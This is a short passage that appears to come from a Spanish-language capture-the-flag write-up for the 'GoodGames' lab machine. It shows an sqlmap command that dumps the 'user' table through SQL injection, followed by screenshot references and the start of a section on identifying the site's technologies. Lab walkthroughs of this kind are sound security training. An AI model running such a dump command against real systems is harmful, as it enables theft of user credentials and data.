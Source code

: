 ```bash
sqlmap -r ultimaPrueba --batch -D main -T user -dump
```

![Untitled](/assets/img/GoodGames/Untitled42.png)

---

## Intrusión

Identificamos tecnologías y gestor de contenido como en toda página web

![Untitled](/assets/img/GoodGames/Untitled43.png)
